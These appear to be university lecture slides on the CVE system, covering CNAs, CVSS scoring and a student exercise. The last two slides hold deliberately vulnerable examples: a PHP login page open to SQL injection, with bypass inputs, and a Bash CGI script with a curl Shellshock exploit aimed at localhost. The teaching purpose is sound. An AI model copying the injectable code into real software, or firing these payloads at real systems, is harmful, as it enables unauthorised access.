


<!--
# Metadata
title: CVE
author: Seb Blair BEng(H) PGCAP MIET MIHEEM FHEA
description: Lecture slides on CVE.
keywords: security, vulnerabilities, exposures, cve, 
lang: en

# Slide styling
theme: uog-theme
_class: lead title
paginate: true
_paginate: false
transition: fade 250ms

style: |
  header em { font-style: normal; view-transition-name: header; }
  header strong { font-weight: inherit; view-transition-name: header2; }
  header:not:has(em) { view-transition-name: header; }
  header:not:has(strong) { view-transition-name: header; }
-->

<style scoped>
h1 {
  view-transition-name: header;
  display: flex;
  align-items: center;
  margin: 0 auto;
}
</style>

# Common Vulnerabilities and Exposures<br>CVE

<div align=center style="font-size:76px; padding-left:300px;padding-right:300px;" >

```py
module = Module(
    code="ELEE1171",
    name="Securing Technologies",
    credits=15,
    module_leader="Seb Blair BEng(H) PGCAP MIET MIHEEM FHEA"
)
```

</div>

<!-- _footer: "[Download as a PDF](https://github.com/UniOfGreenwich/ELEE1171_Lectures/raw/main/content//c/Users/SebDev/Git/Teaching/ELEE1171/Lectures/content/CVE/CVE.pdf)" -->

---

<style scoped>
h1 { view-transition-name: header2; }
</style>

<!-- header: "_CVE_" -->

# What is it?

- The Common Vulnerabilities and Exposures (CVE) system is a publicly accessible catalog of known cybersecurity vulnerabilities. 

<br>

- Managed by the MITRE Corporation, CVE provides unique identifiers for security flaws in software, enabling organizations to efficiently track and address these issues. 

<br>

- Each CVE entry includes a brief description of the vulnerability, but detailed technical information and fixes are found in other databases like the National Vulnerability Database (NVD). 

<br>

- This system helps IT professionals prioritize and mitigate risks, ensuring better security management across various platforms.

---

# Important Key Terms

**Vulnerability**

- An instance of one or more weaknesses in a Product that can be exploited, causing a negative impact to confidentiality, integrity, or availability; a set of conditions or behaviors that allows the violation of an explicit or implicit security policy.

<br>

**Product**

- A unit of software or hardware or both. “Product” is used broadly and includes services, open source projects, specifications, and other common terms such as: system, appliance, device, component, library, package, archive, and collection.

<br>

**Fix**

- A change to software to remediate, mitigate, or otherwise address a vulnerability. “Fix” is used broadly and includes terms such as patch, fix, hotfix, update, and upgrade.

---

## CVE Program


<!-- _footer: https://www.cve.org/ -->


---

## CVE Record

<div style="font-size:32px">

- **CVE Numbering Authority (CNA)**
  - Vendor, researcher, open source, CERT, hosted service, bug bounty provider, and consortium organisations authorised by the CVE Program to assign CVE IDs to vulnerabilities and publish CVE Records within their own specific scopes of coverage.
  - 456 Partners world wide. 

<br>

- **CVE Program Container**
  - Additional references that are added by the CVE Program are found in the CVE Program Container. 

<br>

- **Authorized Data Publisher (ADP)**: 
  - Selected enriched information provided by one or more ADPs is provided under the “ADP” container. If there is no ADP-enriched information, no ADP container will be present.

</div>

---

## Common Vulnerability Scoring System (CVSS) 

The CVSS produces a numerical score to represent the severity of a vulnerability. The numerical score can then be translated into a qualitative representation (such as low, medium, high, and critical) to help organizations properly assess and prioritize their vulnerability management processes. Learn more about the latest CVSS version 4.0 on the ../


---

## Find some CVEs...


- Identify familiar products (e.g. Windows, Apache, Android) and explore if they’ve had CVEs in the past.

  - find a CVSS score, exploitability, patch, and impact.

- Why might public vulnerability databases matter in modern software development?

---

## Use the CVE Scoring System Calculator




<!-- _footer: https://www.first.org/cvss/calculator/4-0 -->


---

## Basics on SQL

...

---

## CVE-2009-1151 [SQL Injection]

Conisder: 

<div class="columns-2">
<div style="padding-left: 100px; font-size:30px">

```php
<?php
$conn = new mysqli("localhost", "root", "root", "demo");

if ($_SERVER["REQUEST_METHOD"] == "POST") {
    $user = $_POST["username"];
    $pass = $_POST["password"];
    $sql = "SELECT * FROM users WHERE username='$user' AND password='$pass'";
    $result = $conn->query($sql);

    if ($result->num_rows > 0) {
        echo "Login successful!";
    } else {
        echo "Login failed!";
    }
}
?>

<form method="post">
    Username: <input name="username"><br>
    Password: <input name="password" type="password"><br>
    <button type="submit">Login</button>
</form>
```

<div  class="columns-2" style="font-size:26px">
<div>

Example inputs: 

- Username: `admin' --`
- Password: `' --`

</div>
<div style="">

Or:

- Username: `admin` 
- Password: `' OR '1'='1'`

</div>
</div>


</div>
<div style="padding-top:30px;">



</div>
</div>

---

## CVE-2014-6271 [Shellshock]

Consider:

<div style="padding-top: 80px;"class="columns-2">
<div style="padding-left: 80px; font-size:28px;">

```bash
#!/bin/bash
echo "Content-type: text/plain"
echo

echo "Vulnerable CGI script. Your User-Agent is:"
echo "$HTTP_USER_AGENT"
```

> This CGI script reflects the `User-Agent` header, but Bash in older versions executes function-like input such as `() { :; };`.

### Exploit example:

```bash
curl -H "User-Agent: () { :; }; /bin/bash -c 'id'" \
  http://localhost:8080/cgi-bin/status
```

</div>
<div style="padding-top: 30px;">


</div>
</div>
